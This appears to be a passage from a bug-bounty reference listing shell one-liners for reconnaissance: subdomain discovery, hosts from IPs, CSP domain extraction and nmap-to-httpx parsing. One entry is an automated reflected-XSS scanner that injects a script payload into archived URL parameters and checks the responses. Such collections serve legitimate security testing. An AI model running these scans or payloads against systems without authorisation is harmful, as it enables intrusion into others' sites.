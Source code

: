 ```bash
subfinder -d HOST -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### XSS without gf
> @HacktifyS

```bash
waybackurls HOST | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
```

### Get Subdomains from IPs
> @laughface809

```bash
python3 hosthunter.py HOSTS.txt > OUT.txt
```

### Gather Domains from Content-Security-Policy
> @geeknik

```bash
curl -vs URL --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```

### Nmap IP:PORT Parser Piped to HTTPX
> @dwisiswant0

```bash
nmap -v0 HOST -oX /dev/stdout | jc --xml -p | jq -r '.nmaprun.host | (.address["@addr"] + ":" + .ports.port[]["@portid"])' | httpx --silent
```

## SC
[@dwisiswant0](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
